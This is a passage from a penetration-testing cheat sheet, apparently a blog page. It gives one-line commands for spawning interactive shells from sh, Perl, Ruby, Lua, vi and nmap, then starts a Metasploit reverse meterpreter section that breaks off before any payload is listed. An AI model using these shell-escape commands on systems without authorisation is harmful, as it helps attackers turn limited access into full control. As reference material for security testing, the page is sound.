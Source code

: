 ### Spawn Interactive sh shell

{% highlight bash %}
/bin/sh -i
{% endhighlight %}

### Spawn Perl TTY Shell

{% highlight perl %}
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
{% endhighlight %}

### Spawn Ruby TTY Shell

{% highlight ruby %}
exec "/bin/sh"
{% endhighlight %}

### Spawn Lua TTY Shell

{% highlight lua %}
os.execute('/bin/sh')
{% endhighlight %}

### Spawn TTY Shell from Vi

Run shell commands from vi:

{% highlight bash %}
:!bash
{% endhighlight %}

### Spawn TTY Shell NMAP

{% highlight bash %}
!sh
{% endhighlight %}


## Metasploit

Some basic Metasploit stuff, that I have found handy for reference.

Basic Metasploit commands, useful for reference, for pivoting see - [Meterpreter Pivoting](/blog/ssh-meterpreter-pivoting-techniques/) techniques.

### Meterpreter Payloads

### Windows reverse meterpreter payload

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
